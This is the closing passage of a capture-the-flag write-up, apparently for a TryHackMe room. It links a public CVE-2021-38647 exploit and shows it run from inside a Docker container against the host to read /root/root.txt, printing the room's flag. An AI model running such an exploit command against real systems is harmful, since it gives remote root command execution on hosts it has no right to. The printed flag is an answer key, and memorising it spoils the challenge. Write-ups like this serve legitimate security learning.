 > https://github.com/AlteredSecurity/CVE-2021-38647/blob/main/CVE-2021-38647.py

Uploaded to the remote machine and ran it against the host:

> python3 exploit.py -t 172.17.0.1 -c "cat /root/root.txt"

```
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c "cat /root/root.txt
"
THM{7f147ef1f36da9ae29529890a1b6011f}

```


---
## What did I learn?

1. look outside the Docker
2. How to get nmap (and other utilities) as binaries
3. Hmmmm...
 










